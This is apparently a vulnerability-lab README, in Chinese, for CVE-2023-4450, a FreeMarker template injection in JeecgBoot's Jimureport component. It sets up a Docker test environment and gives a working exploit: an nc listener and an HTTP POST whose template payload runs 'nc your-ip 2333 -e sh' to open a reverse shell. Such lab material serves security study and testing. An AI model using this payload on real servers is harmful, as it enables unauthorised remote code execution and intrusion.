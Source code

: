 # JeecgBoot SSTI (CVE-2023-4450)

[中文版本(Chinese version)](README.zh-cn.md)

JeecgBoot 是一个开源的低代码开发平台，Jimureport 是低代码报表组件之一

当前漏洞在 1.6.1 以下的 Jimureport 组件库中都存在. 由于未授权的 API `/jmreport/queryFieldBySql` 使用了 freemarker 解析
SQL 语句从而导致了 RCE 漏洞的产生.

引用:

- <https://www.oscs1024.com/hd/MPS-4hzd-mb73>
- <https://www.reajason.eu.org/writing/freemarkersstimemshell>

## 漏洞环境

执行如下命令启动 3.5.3 版本的 JeecgBoot 后端:

```
docker compose up -d
```

在服务启动后，可访问 `http://your-ip:8080/jeecg-boot/jmreport/list` 积木工作台页.

## 漏洞利用

### 反弹 Shell

使用 nc 开启监听端口 2333

```bash
 nc -lvvp 2333
```

通过 `http://your-ip:8080/jeecg-boot/jmreport/queryFieldBySql` sql 参数传递 freemarker payload。

```http request
POST /jeecg-boot/jmreport/queryFieldBySql HTTP/1.1
Host: your-ip:8088
Content-Type: application/json

{
    "sql": "<#assign ex=\"freemarker.template.utility.Execute\"?new()>${ex(\"nc your-ip 2333 -e sh\")}",
    "type": "0"
}
```

![](1.png)
